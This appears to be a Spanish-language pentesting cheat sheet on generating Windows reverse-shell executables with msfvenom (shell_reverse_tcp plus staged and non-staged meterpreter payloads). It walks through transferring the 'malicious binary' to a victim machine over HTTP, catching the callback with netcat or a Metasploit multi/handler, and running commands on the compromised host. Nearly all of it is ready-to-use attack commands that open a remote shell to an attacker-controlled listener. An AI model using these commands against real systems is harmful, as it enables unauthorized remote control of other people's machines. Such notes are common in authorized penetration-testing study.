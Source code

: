 ## Msfvenom ❮❯

Tags: #Msfvenom #Metasploit #ReverShell #Payloads #Netcat #Windows 

### Netcat
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

* Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP y en la maquina victima lo podemos descargar desde el navegador colocando la IP del servicio compartido

* Nos ponemos en escucha por Netcat:
```bash 
❯ rlwrap nc -nlvp 443
```

* Ejecutamos el binario que subimos a Windows y ganamos acceso


### Payload Staged 
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```

Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter/reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```



### Payload Non-Staged
* Nos sirve para crear un binario malicioso, para despues usar metsploit y obtener la ReverShell para maquinas Windows 

```bash
❯ msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o reverse.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```
Teniendo ese binario malicioso lo debemos de pasar a la maquina victima con un servidor HTTP
Ahora en Metasploit hacemos lo siguiente:

* Para verificar la DB del **Metasploit**
```bash 
❯ msfdb run  # Actualiza la DB de Metasploit
```

* Dentro de metasploit colocamos lo siguiente y asi nos pondremos en escucha:
```Metasploit
❯ use exploit/multi/handler
❯ set payload windows/x64/meterpreter_reverse_tcp
❯ show options
❯ set LHOST 172.0.0.1
❯ set LPORT 443
❯ run
```

* Ejecutamos el binario que subimos a Windows

* Dentro de la maquina **Windows**
```bash
❯ getuid    # Nos muestra el usuario del servidor
❯ shell     # Obtenemos uns Shell en Metasploit para poder ejecutar comandos
```
